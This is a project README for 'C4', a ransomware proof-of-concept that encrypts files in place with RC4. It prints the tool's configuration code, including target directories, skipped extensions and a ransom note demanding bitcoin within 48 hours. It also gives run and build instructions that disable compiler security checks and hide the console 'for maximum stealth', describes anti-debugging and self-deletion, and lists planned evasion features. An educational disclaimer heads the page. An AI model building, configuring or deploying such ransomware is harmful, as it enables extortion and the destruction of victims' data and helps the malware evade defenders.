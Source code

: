 # C4

#### Lightweight Ransomware PoC with Concurrent File Encryption + Anti-Analysis Techniques


> 🚨 **DISCLAIMER:**  
> This tool is provided **solely** for educational, research, and defensive-security purposes.  
> Do **not** run C4 against any system you do not own or have **explicit** permission to test.  
> Unauthorized or malicious use is **illegal** and the authors disclaim any liability for damages or legal consequences arising from misuse.


[![C4-logo.png](https://i.postimg.cc/jSxWFJ6d/C4-logo.png)](https://postimg.cc/qzFMtqZ9)


C4 is a ransomware proof-of-concept that weaponizes the Rivest Cipher 4 (RC4) to encrypt files in place. Compiled without the C runtime (CRT), its binary size stays under 15KB while retaining functionality like multithreading, anti-analysis, and optional self-deletion.

---

### Features


- Uses RC4 encryption in a recursive, multithreaded fashion to rapidly encrypt or decrypt files.  
- Targets files in a configurable list of directories, while skipping those with blacklisted extensions.  
- Drops a ransom note with custom text once encryption completes.  
- Includes anti-debugging logic to terminate execution if a debugger is detected.  
- Self-deletes the executable after finishing.
- Supports a verbose mode to log every encrypted file and report total runtime.

---

### Usage

```powershell
.\c4.exe
```

No command-line arguments required. C4 will recurse each directory listed in the `g_Directories` global variable, encrypt eligible files, optionally drop a ransom note, then self-delete.

[![c4-demo-2.gif](https://i.postimg.cc/8cS0D1ZH/c4-demo-2.gif)](https://postimg.cc/WF5nwPLF)
---
### Configuration

Before building, you can tune C4's behavior by editing the globals at the top of `main.c`. Here's what to look for:

```c
   ///////////////////
  // CONFIGURATION //
 ///////////////////

TEXT_SECTION BOOL g_EncryptMode         =       TRUE;     // TRUE = Encrypt, FALSE = Decrypt
TEXT_SECTION BOOL g_RansomMode          =       TRUE;     // TRUE = Drop a text file (g_Note) with payment instructions to the current directory
TEXT_SECTION BOOL g_AntiDebug           =       TRUE;     // TRUE = Program exits when debugger (such as x64dbg, OllyDbg, WinDbg) is attached 
TEXT_SECTION BOOL g_SelfDelete          =       TRUE;     // TRUE = Binary will self-delete
TEXT_SECTION BOOL g_Verbose             =       TRUE;     // TRUE = Print files, directories, errors, and execution time to the console


LPCWSTR g_Directories[] = { 
    L"C:\\Users\\Public\\TestDirectory", 
    NULL                               
}; 

LPCWSTR g_BlacklistedExtensions[NUM_BLACKLISTED_EXTENSIONS] = {    
    ENCRYPT_EXT_W,
    L".exe", L".dll", L".sys", L".ini", L".conf",
    L".cfg", L".reg", L".dat", L".bat", L".cmd"
};


LPCSTR g_Note = {           
    "YOUR FILES HAVE BEEN ENCRYPTED BY C4.EXE\r\n"
    "This is not a joke. Want your data restored?\r\n"
    "Send 0.5 BTC to the address below:\r\n"
    "1MockBTCAddrxxxxxxxxxxxxxxxxxx\r\n"
    "You have 48 hours.\r\n"
};
```

---

### Build

**Visual Studio**  
1. Open `C4.sln` in Visual Studio  
2. Set **Configuration** to `Release` and **Platform** to `x64`  
3. Go to **Project → Properties** and configure:  
   - **C/C++ → Code Generation → Runtime Library:** Multi-threaded (/MT)  
   - **C/C++ → Code Generation → Enable C++ Exceptions:** No  
   - **C/C++ → Code Generation → Security Check:** Disable Security Check (/GS-)
   - **C/C++ → Code Generation → Basic Runtime Checks:** Default  
   - **C/C++ → General → SDL checks:** No (/sdl-)  
   - **C/C++ → Optimization → Whole Program Optimization:** No  
   - **Linker → Debugging → Generate Debug Info:** No  
   - **Linker → Manifest File → Generate Manifest:** No  
   - **Linker → Input → Ignore All Default Libraries:** Yes (/NODEFAULTLIB)  
   - **Linker → Advanced → Entry Point:** `main`  
   - **Linker → System → Subsystem:** Windows – hides the console for maximum stealth (switch to Console subsystem when using verbose mode)
4. Build the solution.

---

### To-Do

    Add NTDLL unhooking

    Add virtual machine detection

